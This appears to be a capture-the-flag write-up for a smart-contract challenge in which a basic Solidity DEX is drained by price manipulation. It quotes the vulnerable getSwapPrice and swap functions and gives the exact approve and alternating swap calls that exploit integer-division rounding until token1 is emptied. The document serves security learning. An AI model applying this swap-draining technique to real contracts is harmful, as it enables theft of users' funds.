 # Requirements

- The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

- You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

# Attack explanation

The vulnerability originates from get_swap_price method which determines the exchange rate between tokens in the Dex. The division in it won't always calculate to a perfect integer, but a fraction. And there is no fraction types in Solidity. Instead, division rounds towards zero. according to docs. For example, 3 / 2 = 1 in solidity.

```
function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
}

function swap(address from, address to, uint amount) public {
  require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
  require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
  uint swapAmount = getSwapPrice(from, to, amount);
  IERC20(from).transferFrom(msg.sender, address(this), amount);
  IERC20(to).approve(address(this), swapAmount);
  IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

We're going to swap all of our token1 for token2. Then swap all our token2 to obtain token1, then swap all our token1 for token2 and so on. On each swap we'll get more of token1 or token2 than held before previous swap. This is due to the inaccuracy of price calculation in get_swap_price method.

We could solve the challenge by making the next calls:

- Approve contract to transfer tokens in your behalf.

```
await contract.approve(instance, 500)
```

- Get token addresses:

```
t1 = await contract.token1()
t2 = await contract.token2()
```

- Perform swaps:

```
await contract.swap(t1, t2, 10)
await contract.swap(t2, t1, 20)
await contract.swap(t1, t2, 24)
await contract.swap(t2, t1, 30)
await contract.swap(t1, t2, 41)
await contract.swap(t2, t1, 45)
```

- We have drained token 1 succesfully.

